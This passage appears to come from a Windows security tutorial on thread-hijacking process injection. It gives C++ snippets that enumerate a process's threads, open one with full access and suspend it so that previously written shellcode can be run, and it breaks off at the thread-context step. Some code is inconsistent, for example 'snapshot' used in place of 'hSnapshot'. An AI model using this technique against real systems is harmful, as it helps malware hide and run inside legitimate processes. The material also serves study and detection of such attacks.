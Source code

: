 ```cpp
	sizeof shellcode, // byte size of data
	NULL
);
```

Once the initial steps are out of the way and our shellcode is written to memory we can move to step four. At step four, we need to begin the process of hijacking the process thread by identifying the thread ID. To identify the thread ID we need to use a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()`. These API calls will collectively loop through a snapshot of a process and extend capabilities to enumerate process information.

```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```

At step five, we have gathered all the required information in the structure pointer and can open the target thread. To open the thread we will use `OpenThread` with the `THREADENTRY32` structure pointer.

```cpp
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}
```

At step six, we must suspend the opened target thread. To suspend the thread we can use `SuspendThread`.

```cpp
SuspendThread(hThread);
```

At step seven, we need to obtain the thread context to use in the upcoming API calls. This can be done using `GetThreadContext` to store a pointer.

